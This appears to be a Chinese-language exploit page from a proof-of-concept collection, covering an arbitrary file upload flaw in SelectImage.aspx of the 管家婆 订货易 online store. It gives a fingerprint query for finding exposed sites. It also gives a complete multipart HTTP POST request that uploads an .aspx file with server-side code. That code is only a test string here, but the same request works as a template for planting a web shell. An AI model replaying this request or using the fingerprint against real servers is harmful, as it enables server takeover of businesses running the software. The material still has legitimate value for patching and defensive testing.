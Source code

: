 # 管家婆 订货易在线商城 SelectImage.aspx 任意文件上传漏洞

## 漏洞描述

任我行率先针对中小企业推出了管家婆进销存、财务一体化软件。</p><p>管家婆订货易在线商城存在 SelectImage.aspx 任意文件上传漏洞，攻击者可通过该漏洞可控制整个系统，最终导致系统处于极度不安全状态。

## 漏洞影响

<a-checkbox checked>管家婆 订货易在线商城</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="订货易"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697717295478-34323ce3-2781-44b8-b661-80a61d9c6b74.png)

验证POC

```php
POST /DialogTemplates/SelectImage.aspx?type=titleimg&size=30*100&pageindex=1&iscallback=true HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=532c7611457d40f4ae4cd9422973416b

--532c7611457d40f4ae4cd9422973416b
Content-Disposition: form-data; name="Filedata"; filename="TEST.aspx"
Content-Type: image/jpeg

<% Response.Write("Test"); %>
--532c7611457d40f4ae4cd9422973416b--"
```

![img](../../../.vuepress/public/img/1697766919579-f7c4cda8-02ba-41da-b073-b357d9109280.png)